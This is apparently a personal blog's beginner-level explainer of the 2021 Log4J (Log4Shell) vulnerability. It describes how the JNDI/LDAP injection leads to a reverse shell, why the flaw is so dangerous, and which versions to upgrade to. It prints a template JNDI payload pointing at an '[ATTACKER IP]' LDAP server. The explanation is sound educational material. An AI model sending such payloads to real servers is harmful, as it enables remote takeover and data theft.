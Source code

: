 ```yaml
---
layout: post
permalink: /ELI5/:title/
title:  "ELI5 - Log4J"
---
```


## What is Log4J?
Log4J is a popular Java logging library, it is a utility that is used by many Java applications/software for logging purposes. For example, if a Java application utilises Log4J, error messages or events such as '404' can be recorded in a log. For an online game like Minecraft, the game server utilises the Log4J library to log commands typed by users/players in the console. 

On December 10th 2021, a vulnerability in this Log4J library was discovered which allows for malicious actors to execute remote commands in servers (that are using Log4J).

## How does it work?
*To better understand how the exploit works, I recommend you try out this TryHackMe room called [Solar](https://tryhackme.com/room/solar). You can also read my Solar writeup [here](/blogs/thm-solar/)*. to see exploitation steps.

Malicious actors will typically scan the internet (i.e., public IP addresses) and footprint for Java applications. If an application is found to be using Java, it is likely that the Log4J library is also used and therefore the application is vulnerable.

*It might not be possible to detect if the Log4J utility is used, but an attacker can still try the malicious payload on any discovered Java applications to see if the payload works.*

The attacker will then host both an LDAP and HTTP Server. A malicious JNDI payload will then be sent using the vulnerable application. A malicious payload looks something like this `${jndi:ldap://[ATTACKER IP]:[LDAP Server Port Number]/Exploit}`. This causes the URL to be logged in one of Log4J's log files. However, this is where the vulnerability exists.

The URL is not only logged, but also evaluated. In other words, it is executed by the server running the Java application. The payload first initiates a connection to the attacker's LDAP Server on the specified port number, requesting for the `Exploit` class. The LDAP Server is also set up in a way such that it will redirect traffic to the HTTP Server. The HTTP Server will contain the exploit class. The exploit class is written in Java that could contain a simple code which returns a reverse shell connection to the attacker. It has to be written in Java so that the target server can understand the class and execute it remotely. 

In essense, when the malicious JNDI payload is executed, the command is logged and executed. This causes the remote server to initiate a connection to the attacker's LDAP Server to request for the specified exploit class. The connection is redirected to the HTTP Server where the exploit class is located. The exploit is then executed remotely by the vulnerable server and a reverse shell is obtained. 

I have also designed a simple diagram illustrating the connections made between the attacker and target server/application.
![](/screenshots/log4j/log4j-diagram.png)

## Why is Log4J so dangerous?
The reasons why this vulnerability is so dangerous can be simplified into these reasons:<br>
1) `It is a popular utility used by MANY Java applications - both open-source and commercial softwares.` 
There are billions of devices & systems running Java applications in the world. Additionally, many of these applications uses the popular Log4J library for their logging purposes. Do you see where I am going with this?

If many applications run Java, the possibility of these applications using Log4J is also high due to its popularity. Hence, the discovery of the Log4J vulnerability is such a big deal because it is extremely likely that public-facing Java applications are vulnerable. 

2) `Attackers can gain remote command execution.`
This vulnerability leads to a remote command execution on the vulnerable application. This means that any attacker can use the malicious payloads on the vulnerability application, leading to a command execution over the internet. 

Some vulnerabilities require attackers to obtain physical access to the vulnerable system to further exploit it. Some vulnerabilities require attackers to have privileged access. However, Log4J is an easy-to-exploit vulnerability that does not have these requirements. The vulnerability provides attackers with access directly to the server, without the need to obtain physical or privileged access. The attackers can then leverage on this access to perform other malicious actions such as stealing confidential data from these vulnerable servers.

Hence, the fact that this vulnerability is so easy to exploit (due to lesser requirements i.e., not needing physical access and not needed privileged access) and that the outcome of the exploitation is a remote command execution, makes it an extremely dangerous vulnerability.


## Patching
If you are using a commercial application, please refer to the respective vendor for patching. Otherwise, it is recommended to upgrade the utility to versions `Log4j 2.3.2 (for Java 6), 2.12.4 (for Java 7), or 2.17.1 (for Java 8 and later).`
The updated versions can be found [here](https://logging.apache.org/log4j/2.x/download.html).